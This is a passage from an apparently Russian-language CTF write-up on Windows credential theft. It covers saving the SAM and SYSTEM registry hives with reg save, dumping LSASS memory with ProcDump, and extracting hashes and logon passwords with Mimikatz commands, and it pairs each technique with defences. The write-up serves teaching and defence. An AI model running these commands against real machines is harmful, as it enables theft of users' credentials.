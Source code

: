 ![image](https://github.com/AnaktaCTF/CTFReports/blob/main/Nnnikitosss/Picture/2.5.png)

### 1. Извлечение хешей паролей из SAM (Security Account Manager)

**Security Account Manager (SAM)** — это база данных Windows, в которой хранятся хеши паролей локальных пользователей.

#### Как работает:
- Файлы **SAM** и **SYSTEM** находятся по пути `C:\Windows\System32\config\SAM` и `C:\Windows\System32\config\SYSTEM`.
- Для извлечения хешей паролей злоумышленник может использовать команду `reg save` или инструменты, такие как **Mimikatz**.

#### Пример:
```powershell
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
```
```powershell
mimikatz
lsadump::sam
```

#### Защита:
- Ограничение прав доступа к файлам **SAM** и **SYSTEM**.
- Использование **BitLocker** для шифрования системного диска.

---

### 2. Дамп памяти LSASS (Local Security Authority Subsystem Service)

**LSASS** хранит учетные данные в памяти, включая пароли и Kerberos-токены.

#### Как работает:
- Злоумышленник может снять дамп памяти процесса **LSASS** с помощью инструмента **ProcDump**.

#### Пример:
```powershell
procdump -accepteula -ma lsass.exe lsass.dmp
```
Затем можно использовать **Mimikatz** для анализа дампа и извлечения учетных данных:
```powershell
mimikatz
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### Защита:
- Включение **Credential Guard** и **LSA Protection** для защиты памяти процесса **LSASS**.
- Ограничение доступа к памяти процесса **LSASS**.

---